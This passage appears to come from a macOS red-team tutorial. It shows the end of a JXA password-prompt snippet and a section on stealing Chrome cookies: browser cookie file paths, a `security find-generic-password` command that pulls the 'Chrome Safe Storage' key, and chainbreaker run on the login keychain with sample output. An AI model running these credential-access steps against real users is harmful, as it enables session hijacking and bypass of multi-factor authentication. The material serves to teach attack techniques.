 ```js
            app.displayAlert("Dialog cancelled", {
                message: `${fullName}, you cancelled the password entry.`,
                as: "warning"
            })
        } else {
            throw err
        }
    }
    return null  // Return null if cancelled or an error occurred
}

// Execute the function and store the result
const result = run()

// Display the result (be careful with this in a real scenario!)
if (result !== null) {
    app.displayDialog(`Debug: The entered password was "${result}"`)
}
```

- # credential access via chrome cookies

browser cookies are a highly valuable vector for attackers. cookies contain session identifiers that allow users to stay logged in, so if an attacker [steals them](https://eitca.org/cybersecurity/eitc-is-wasf-web-applications-security-fundamentals/session-attacks/cookie-and-session-attacks/examination-review-cookie-and-session-attacks/how-can-an-attacker-steal-a-users-cookies-using-a-http-get-request-embedded-in-an-image-source/), they can impersonate the user without needing credentials. 

armed with valid session cookes, attackers can also [bypass MFA](https://www.techtarget.com/searchsecurity/definition/cookie-poisoning) because the system assumes the user has already completed the MFA process. let's see how we can steal some cookies!

the "big 3" browsers store their cookies in different locations.

```
safari: ~/Library/Safari/LocalStorage/*
firefox: ~/Library/Application Support/Firefox/Profiles/*.default/cookies.sqlite
chrome: ~/Library/Application Support/Google/Chrome/Default/Cookies
```

chrome encrypts important user data files (cookies, passwords, payment information, authentication tokens) with a key stored in the user's login keychain. this key is stored under `Chrome Safe Storage` in the keychain, and is base64 encoded.

to retrieve the key, just use the following command: `security find-generic-password -wa "Chrome Safe Storage"`

this retrieved key can be used directly in the base64-encoded form for decryption operations.

using [chainbreaker](https://github.com/n0fate/chainbreaker), you can extract a bunch of information from your macOS keychain. all you have to do is provide the path to your login keychain (usually at `~/Library/Keychains/login.keychain-db`), and chainbreaker will output a bunch of decrypted information.

```bash
python3 -m chainbreaker -pa ~/Library/Keychains/login.keychain-db -o output

grep -C 20 "Chrome Safe Storage" output.log

[+] Generic Password Record
	 [-] Create DateTime: 2023-11-15 18:32:14
	 [-] Last Modified DateTime: 2023-11-15 18:32:14
	 [-] Description: 
	 [-] Creator: b'aapl'
	 [-] Type: 
	 [-] Print Name: b'Chrome Safe Storage'
	 [-] Alias: 
	 [-] Account: b'Chrome'
```
